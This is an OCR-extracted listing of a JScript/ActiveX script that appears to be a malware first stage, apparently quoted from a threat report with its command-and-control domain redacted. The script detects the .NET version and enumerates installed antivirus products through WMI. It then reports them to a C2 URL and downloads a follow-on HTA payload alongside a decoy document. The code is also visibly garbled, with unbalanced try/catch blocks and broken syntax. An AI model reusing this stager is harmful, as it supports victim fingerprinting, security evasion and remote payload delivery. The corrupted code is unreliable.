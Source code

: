 ```{javascript}
var shells = new ActiveXObject("WScript.Shell");
function MfNZUM(){
    var net = "";
    var FSO = new ActiveXObject("Scripting.FileSystemObject");
    var folds = FSO.GetFolder(FSO.GetSpecialFolder(0)+"\Microsoft.NET\Framework\").SubFolders;
    e = new Enumerator(folds);
    var folder;
    e.moveFirst();   
    while (e.atEnd() == false)  
    {  
        folder = e.item();
        var files = folder.files;
        var fileEnum = new Enumerator(files);
         fileEnum.moveFirst(); 
        while(fileEnum.atEnd() == false){
            if(fileEnum.item().Name == "csc.exe")
            {
                if(folder.Name.substring(0,2)=="v2")
                    return "v2.0.50727";
                else if(folder.Name.substring(0,2)=="v4")
                    return "v4.0.30319";
            }
             fileEnum[moveNext](); 
        }
        e[moveNext]();
    }
    return folder.Name;
}
ver = v2.0.50727;
try {
    ver = MfNZUM();
} catch(e) { 
    ver = "v2.0.50727";
}
shells.Environment("Process")(COMPLUS_Version) = ver;;
var objWMIService = GetObject("winmgmts:\\.\root\SecurityCenter2");
var colItems = objWMIService.ExecQuery("Select * From AntiVirusProduct", null, 48);
var objItem = new Enumerator(colItems); 
var x = "";
for (; !objItem.atEnd(); objItem[moveNext]()) {
    x += (objItem.item().displayName + " " + objItem.item().productState).replace(" ", "");
}
if(x && x.length){
    x = x + "_stg1";
}
var aUrl = "<C2_domain>/plugins/16364/11542/true/true/"+x;
o.pink("<C2_domain>/cgi/8ee4d36866/16364/11542/58a3a04b/file.hta",aUrl,da,<decoy_document_name>)
} catch (e) {}
finally{window.close();}
}
catch (e) {}
finally{window.close();}
```
